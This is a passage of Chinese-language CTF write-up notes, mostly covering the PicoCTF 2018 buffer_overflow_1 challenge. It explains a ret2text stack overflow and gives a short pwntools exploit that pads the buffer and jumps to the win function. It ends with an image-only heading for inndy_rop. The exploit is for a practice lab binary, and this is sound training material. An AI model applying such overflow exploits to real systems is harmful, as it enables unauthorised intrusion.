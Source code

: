 不知道为什么,本地打通了但是远程泄露的`libc`有点问题,打不通,还是菜

# PicoCTF_2018_buffer_overflow_1

![image-20240103130117204](../assets/img/old_imgs/image-20240103130117204.png)

![image-20240103130158706](../assets/img/old_imgs/image-20240103130158706.png)

- `ret2text`

1. `vuln`函数中`s`变量存在溢出
2. 存在后门函数
3. 构造`payload`填充再跳转到后门函数`win`就可以得到`flag`

```python
from pwn import *
io = process('./PicoCTF_2018_buffer_overflow_1')
padding = b'A'*(0x28+0x4)
payload = padding+p32(0x080485CB)
io.sendlineafter(b'Please enter your string: \n',payload)
io.interactive()
```

# inndy_rop

![image-20240103141518465](../assets/img/old_imgs/image-20240103141518465.png)
